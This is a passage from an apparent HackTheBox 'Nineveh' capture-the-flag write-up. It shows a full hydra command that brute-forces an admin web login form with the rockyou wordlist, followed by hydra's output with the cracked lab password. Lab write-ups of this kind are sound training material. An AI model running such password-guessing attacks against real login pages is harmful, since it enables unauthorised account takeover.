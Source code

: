 ```bash
┌──(root㉿shiro)-[/home/shiro/HackTheBox/Nineveh]
└─# hydra -l admin -P /usr/share/wordlists/rockyou.txt 10.10.10.43 -s 80 http-post-form "/department/login.php:username=admin&password=^PASS^:Invalid Password" -t 64 
Hydra v9.3 (c) 2022 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2022-06-28 20:51:23
[DATA] max 64 tasks per 1 server, overall 64 tasks, 14344399 login tries (l:1/p:14344399), ~224132 tries per task
[DATA] attacking http-post-form://10.10.10.43:80/department/login.php:username=admin&password=^PASS^:Invalid Password
[80][http-post-form] host: 10.10.10.43   login: admin   password: 1q2w3e4r5t
1 of 1 target successfully completed, 1 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2022-06-28 20:51:51
```

>   Refer to this [article](https://infinitelogins.com/2020/02/22/how-to-brute-force-websites-using-hydra/) on how to use `hydra` to brute force websites & online forms.

Now, lets try logging into the department page to check if there’s anything interesting.

The only thing interesting on this webpage was the notes section.
